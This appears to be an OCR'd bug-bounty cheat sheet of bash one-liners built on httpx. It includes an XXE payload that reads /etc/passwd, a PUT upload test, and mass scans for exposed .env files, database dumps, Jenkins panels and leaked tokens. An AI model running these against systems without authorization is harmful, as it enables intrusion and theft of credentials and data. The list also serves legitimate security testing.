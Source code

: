 XXE Injection Test
```bash
cat urls.txt | qsreplace '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>' | httpx -silent -fr 'root:x:' -o xxe_found.txt
```

Detect JWT Tokens in Response
```bash
cat urls.txt | httpx -silent -fr 'eyJ' -o jwt_leaks.txt
```

Server Version Disclosure (Fingerprinting)
```bash
cat subdomains.txt | httpx -silent -server -o server_versions.txt
```

Test PUT Method for File Upload
```bash
cat subdomains.txt | httpx -silent -method PUT -path '/test.txt' -body 'test upload' -mc 201,200 -o put_upload_possible.txt
```

Check for Debug Endpoints
```bash
cat subdomains.txt | httpx -silent -path /debug -mc 200 -o debug_endpoints.txt
```

Find Content Security Policy Bypass (Open Wildcards)
```bash
cat subdomains.txt | httpx -silent -hx | grep 'Content-Security-Policy' | grep '*'
```

Check for Public .DS_Store Files (Directory Listing)
```bash
cat subdomains.txt | httpx -silent -path /.DS_Store -mc 200 -o ds_store_leaks.txt
```

Find Open Jenkins Panels
```bash
cat subdomains.txt | httpx -silent -path /jenkins -mc 200 -o open_jenkins.txt
```

Detect Internal IP Leaks in Response
```bash
cat urls.txt | httpx -silent -fr '10.' -o internal_ip_leak.txt
```

Search for Open API Documentation (Swagger)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/swagger-ui.html\n/api-docs\n/openapi.json') -mc 200 -o open_api_docs.txt
```

Find Exposed .env Files (Sensitive Configs)
```bash
cat subdomains.txt | httpx -silent -path /.env -mc 200 -o exposed_env.txt
```

Detect Exposed MySQL Dumps
```bash
cat subdomains.txt | httpx -silent -path /db.sql -mc 200 -o mysql_dumps.txt
```
